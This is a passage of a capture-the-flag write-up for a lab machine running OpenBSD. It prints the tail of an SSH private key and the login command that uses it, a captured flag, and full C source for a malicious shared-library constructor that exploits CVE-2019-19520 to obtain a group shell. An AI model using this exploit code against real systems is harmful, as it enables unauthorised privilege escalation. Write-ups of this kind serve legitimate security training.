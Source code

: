     TxaoqT6GBtynwP7Z79s9G5VAF46deQW6jEtc6akIbcyEzU9T3YjrZ2rAaECkJo4+ppjiJp
    NmDe8LSyaXKDIvC8lb3b5oixFZAvkGIvnIHhgRGv/+pHTqo9dDDd+utlIzGPBXsTRYG2Vz
    j7Zl0cYleUzPXdsf5deSpoXY7axwlyEkAXvavFVjU1UgZ8uIqu8W1BiODbcOK8jMgDkQAA
    AMB0rxI03D/q8PzTgKml88XoxhqokLqIgevkfL/IK4z8728r+3jLqfbR9mE3Vr4tPjfgOq
    eaCUkHTiEo6Z3TnkpbTVmhQbCExRdOvxPfPYyvI7r5wxkTEgVXJTuaoUJtJYJJH2n6bgB3
    WIQfNilqAesxeiM4MOmKEQcHiGNHbbVW+ehuSdfDmZZb0qQkPZK3KH2ioOaXCNA0h+FC+g
    dhqTJhv2vl1X/Jy/assyr80KFC9Eo1DTah2TLnJZJpuJjENS4AAADBAM0xIVEJZWEdWGOg
    G1vwKHWBI9iNSdxn1c+SHIuGNm6RTrrxuDljYWaV0VBn4cmpswBcJ2O+AOLKZvnMJlmWKy
    Dlq6MFiEIyVKqjv0pDM3C2EaAA38szMKGC+Q0Mky6xvyMqDn6hqI2Y7UNFtCj1b/aLI8cB
    rfBeN4sCM8c/gk+QWYIMAsSWjOyNIBjy+wPHjd1lDEpo2DqYfmE8MjpGOtMeJjP2pcyWF6
    CxcVbm6skasewcJa4Bhj/MrJJ+KjpIjQAAAMEAy/+8Z+EM0lHgraAXbmmyUYDV3uaCT6ku
    Alz0bhIR2/CSkWLHF46Y1FkYCxlJWgnn6Vw43M0yqn2qIxuZZ32dw1kCwW4UNphyAQT1t5
    eXBJSsuum8VUW5oOVVaZb1clU/0y5nrjbbqlPfo5EVWu/oE3gBmSPfbMKuh9nwsKJ2fi0P
    bp1ZxZvcghw2DwmKpxc+wWvIUQp8NEe6H334hC0EAXalOgmJwLXNPZ+nV6pri4qLEM6mcT
    qtQ5OEFcmVIA/VAAAAG2plbm5pZmVyQG9wZW5rZXlzLmh0Yi5sb2NhbAECAwQFBgc=
    -----END OPENSSH PRIVATE KEY-----

We can connect to the box using this key and get the user flag.

    :::text
    kali@kali:~$ ssh jennifer@10.10.10.199 -i id_rsa
    <snip>
    openkeys$ cat user.txt
    36ab21239a15c537bde90626891d2b10

# Root

The articles used to bypass the authentication give us a few leads about the
privilege escalation.

    :::text
    openkeys$ id
    uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)

We will use CVE-2019-19520 to gain access to the group `auth` and then use CVE-2019-19522
to get `root`

## CVE-2019-19520

First we create a temporary folder `/tmp/.plop` and create the file `swrast_dri.c`
with the following content:

    :::c
    #include <paths.h>
    #include <sys/types.h>
    #include <unistd.h>

    static void __attribute__ ((constructor)) _init (void) {
        gid_t rgid, egid, sgid;
        if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
        if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

        char * const argv[] = { _PATH_KSHELL, NULL };
        execve(argv[0], argv, NULL);
        _exit(__LINE__);
    }

